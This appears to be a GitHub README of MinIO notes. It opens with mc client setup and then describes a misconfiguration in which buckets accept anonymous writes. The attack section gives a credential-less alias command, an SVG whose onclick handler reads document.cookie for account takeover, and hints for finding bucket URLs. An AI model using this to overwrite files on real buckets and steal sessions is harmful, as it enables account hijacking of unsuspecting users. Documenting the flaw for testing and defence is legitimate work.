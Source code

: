 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/MinIO">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/MinIO">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>




# MinIO
MinIO Object Storage 🧮

# Minio Console
To copy a file from your localhost to a MinIO server using the mc (MinIO Client), follow these steps:

## 1. Install mc client:
```
curl -O https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```

## 2. Configure MinIO Client:
```
mc alias set myminio http://minio-server-url:9000 YOUR-ACCESS-KEY YOUR-SECRET-KEY

```

## 3. Copy a file from localhost to MinIO:
```
mc cp /home/user/example.txt myminio/mybucket/
```

# minio vunlenability
by default bucket is public and attacker can write file in minio bucket without any credential !

* default is :
```
mc alias set myminio/ http://MINIO-SERVER MYUSER MYPASSWORD
```

* in vulnerable server use :
```
mc alias set myminio/ http://MINIO-SERVER 
```

## ATO in minio
minio bucket with insufficient permissions that anyone can upload files and overwrite existing files . Attacker can upload malicious svg and overwrite existing icons and takeover any other users account that clicks on application icons such as "sort"

Example of malicious overwritten file :

```
<svg onclick="javascript:console.log(document.cookie)" width="16" height="16" viewBox="0 0 16 16" fill="none" xmlns="http://www.w3.org/2000/svg">
<path d="M2 12V10.6667H6V12H2ZM2 8.66667V7.33333H10V8.66667H2ZM2 5.33333V4H14V5.33333H2Z" fill="#13141F" fill-opacity="0.9"/>
</svg>
```
now we can access :
```
https://cdn.target.com/@foo-icon/sort.png
https://minio.target.com/foo-icon/sort.png
```


## find bucket url
default use @ in url 
```
https://cdn.target.com/@foo-icon/e0a9c740db7682.jpg?width=1920&quality=100

recon subdomani for find minio bucket subdomain : 
https://minio.target.com/foo-icon
```





# Refrence
[min.io](https://min.io/download?license=agpl&platform=linux)